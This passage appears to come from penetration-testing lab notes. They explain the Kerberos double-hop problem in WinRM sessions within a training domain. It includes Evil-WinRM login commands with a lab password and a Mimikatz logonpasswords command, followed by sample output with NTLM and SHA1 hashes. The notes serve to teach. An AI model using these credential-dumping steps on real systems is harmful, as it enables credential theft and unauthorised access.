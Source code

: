 #### **What Happens During Kerberos Authentication**
1. **Initial Authentication**: User authenticates to KDC, receives TGT (Ticket Granting Ticket)
2. **Service Request**: User requests TGS (Ticket Granting Service) ticket for specific service
3. **Service Access**: TGS ticket sent to target service for authentication
4. **Session Establishment**: Service validates ticket and grants access

#### **Why the Double Hop Fails**
```
Attack Host → Target Host A → Target Host B
     ↓              ↓             ↓
  Password      TGS Ticket    NO CREDENTIALS
  Available     Available     (TGT not sent)
```

**Critical Issue**: When connecting via WinRM/PowerShell remoting:
- **TGS ticket sent**: Allows access to the immediate target (Host A)
- **TGT ticket NOT sent**: Cannot request new TGS tickets for additional resources (Host B)
- **No credential caching**: Password/hash not stored in remote session memory
- **Authentication failure**: Subsequent resource access denied

---

## 🔍 **Practical Demonstration**

### **Scenario Setup**
- **Attack Host**: Parrot/Kali Linux (domain-external)
- **Target Host A**: DEV01 (domain-joined, WinRM accessible)
- **Target Host B**: DC01 (Domain Controller, PowerView target)
- **Credentials**: `INLANEFREIGHT\backupadm` with Remote Management Users group membership

### **Problem Manifestation**

#### **1. WinRM Connection Establishment**
```powershell
# Connect via WinRM from Windows host
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm

# Or via Evil-WinRM from Linux
evil-winrm -i 172.16.8.50 -u backupadm -p '!qazXSW@'
```

#### **2. Credential Analysis with Mimikatz**
```powershell
# From within WinRM session on DEV01
cd 'C:\Users\Public\'
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

**Critical Observation**: Mimikatz output shows NO credentials for `backupadm` user:
```powershell
Authentication Id : 0 ; 1284107 (00000000:0013980b)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
```